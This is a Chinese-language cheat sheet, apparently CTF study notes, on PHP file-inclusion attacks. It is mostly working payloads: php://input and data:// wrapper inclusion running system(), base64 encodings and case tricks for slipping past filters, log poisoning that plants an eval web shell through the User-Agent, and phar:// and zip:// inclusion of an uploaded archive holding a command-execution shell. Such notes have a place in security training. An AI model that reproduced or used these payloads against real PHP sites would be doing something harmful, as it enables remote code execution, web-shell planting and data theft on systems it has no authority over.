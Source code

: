 
^
## **php伪协议 文件包含注入php的php代码**

1. php://input 自动包含POST请求体(需要第一allow_url_include开启)
```
include php://input
post请求的请求体参数xx=<?php system(); ?>
请求体直接就一个<?php system(); ?>也可。

如：
?file=Php://input  这里大写可以绕过过滤php
再post：<?php system("tac flag.php");?>

```

2. data://text/plain直接包含代码内容:(需要两个allow开启)
```
include data://text/plain,<?php phpinfo(); ?>

file_get_contents('data://text/plain,welcome to the zjctf','r')
即为welcome to the zjctf

file_get_contents($_GET['2333']) === 'todat is a happy day'
则?2333=data://text/plain;base64,dG9kYXQgaXMgYSBoYXBweSBkYXk=


代码执行获取flag
payload：
?c=data://text/plain,<?php system('cat f*');?>
?c=data://text/plain,<?=system("tac%20flag.php");?>

防止过滤一下：?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZionKTs/Pg==
但是结尾有.php的情况：include($c.".php"); 编码后会失效。
如果= 也过滤，调整空格数量，直至base64后没有=，末尾会是+号，或直接把=去除。
如果=+也过滤了，<?php    system("ls");     不要闭合?>这样的base64末尾没有+。
如果=+也过滤了，<?php    system("ls") ?>   去掉;这样的base64末尾没有+。
```

^
## **日志包含**
考伪协议绕过也可能直接日志包含
?file=/var/log/nginx/access.log
修改UA为：<?php @eval($_REQUEST[1])?>
1=system("ls");
1=system("tac fl0g.php");




^
## **php伪协议 文件包含自动解压文件再包含**
```
phar://D:/phpinfo.zip/phpinfo.txt
zip://D:\\phpinfo.jpg%23phpinfo.txt

上传了个压缩包，压缩包中phpinfo.txt中文件为<?php system($_GET[a]); ?>
```
